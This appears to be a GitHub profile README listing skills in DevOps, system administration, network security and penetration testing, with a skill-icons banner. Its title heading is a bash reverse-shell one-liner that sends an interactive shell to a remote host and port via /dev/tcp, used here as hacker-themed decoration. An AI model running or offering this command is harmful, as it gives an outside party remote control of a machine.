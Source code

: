 <h1 align="center"> /bin/bash -i >& /dev/tcp/Ciscoanass/444 0>&1 </h1>


<p align="left">
  <img src="https://i.gifer.com/3rNn.gif" alt="image" width="600" align="right">
  </p>

   &lt;config&gt;

♾️ Devops

🖥️ Sys Administration

🛡️ Network Security

📶 Sys&Network Monitoring

👾 Ethical Hacking

💥 Penetration Testing


   &lt;/config&gt;


<h1> Skills :</h1>


<p align="center">
  <a href="https://skillicons.dev">
    <img src="https://skillicons.dev/icons?i=azure,aws,docker,git,github,grafana,postman,jenkins,prometheus,ansible,terraform,nginx,bash,linux,redhat,ubuntu,debian,kali,powershell,windows,mysql,postgres,py,django,go,js,html,css,wordpress,vscode&perline=12  " />
  </a>
</p>
